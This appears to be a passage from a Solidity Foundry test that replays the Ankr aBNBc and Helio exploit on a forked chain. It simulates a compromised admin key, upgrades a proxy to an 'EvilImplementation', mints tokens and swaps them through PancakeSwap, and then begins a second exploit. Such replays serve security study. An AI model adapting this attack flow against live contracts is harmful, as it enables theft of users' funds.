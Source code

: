 ```
        ANKR_EXPLOITER = makeAddr("Ankr Exploiter");
        HELIO_EXPLOITER = makeAddr("Helio Exploiter");
        evilImpl = new EvilImplementation();
    }

    function testExploit() public {
        assertEq(IERC20(ABNBC_PROXY).balanceOf(ANKR_EXPLOITER), 0);

        // simulate compromised Ankr admin deployer private key
        vm.startPrank(ANKR_DEPLOYER);

        // upgrade to evil implementation
        ProxyAdmin(ANKR_PROXY_ADMIN).upgrade(ABNBC_PROXY, address(evilImpl));

        // assert that the proxy implementation is now the evil implementation
        changePrank(ANKR_PROXY_ADMIN);
        assertEq(TransparentUpgradeableProxy(ABNBC_PROXY).implementation(), address(evilImpl));

        // mint tokens to the exploiter
        changePrank(ANKR_DEPLOYER);
        EvilImplementation(ABNBC_PROXY).evilMint(ANKR_EXPLOITER, EXPLOIT_AMOUNT);
        assertEq(IERC20(ABNBC_PROXY).balanceOf(ANKR_EXPLOITER), EXPLOIT_AMOUNT);
        emit log_named_uint("aBNBc minted", EXPLOIT_AMOUNT);

        // log pool reserves before
        (uint256 wBNB, uint256 aBNBc,) = WBNB_ABNBC_PAIR.getReserves();
        emit log_named_uint("wBNB reserves before", wBNB);
        emit log_named_uint("aBNBc reserves before", aBNBc);

        // swap aBNBc for USDC via wBNB and BUSD
        changePrank(ANKR_EXPLOITER);
        IERC20(ABNBC_PROXY).approve(address(PANCAKE_ROUTER), EXPLOIT_AMOUNT);
        (uint256[] memory amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            EXPLOIT_AMOUNT, 0, aBNBcToUSDC, ANKR_EXPLOITER, block.timestamp + 500 seconds
        );
        emit log_named_uint("USDC received", amounts[amounts.length - 1]);
        delete amounts;

        // log pool reserves after
        (wBNB, aBNBc,) = WBNB_ABNBC_PAIR.getReserves();
        emit log_named_uint("wBNB reserves after", wBNB);
        emit log_named_uint("aBNBc reserves after", aBNBc);

        // advance time and start Helio exploit
        vm.warp(block.timestamp + 1 hours);
        uint256 wBNBAmount = 10 ether;
        deal(WBNB, HELIO_EXPLOITER, wBNBAmount);

        // buy cheap aBNBc
        changePrank(HELIO_EXPLOITER);
        emit log_named_uint("wBNB spent", wBNBAmount);
        IERC20(WBNB).approve(address(PANCAKE_ROUTER), wBNBAmount);
        (amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            wBNBAmount, 0, wBNBToaBNBc, HELIO_EXPLOITER, block.timestamp + 500 seconds
        );
        uint256 aBNBcAmount = amounts[amounts.length - 1];
        emit log_named_uint("aBNBc received", aBNBcAmount);
        delete amounts;

        // query some Helio state
        (, bytes memory result) = HELIO_INTERACTION.call(abi.encodeWithSignature("spotter()"));
        address spotter = abi.decode(result, (address));
        emit log_named_address("spotter address", spotter);
```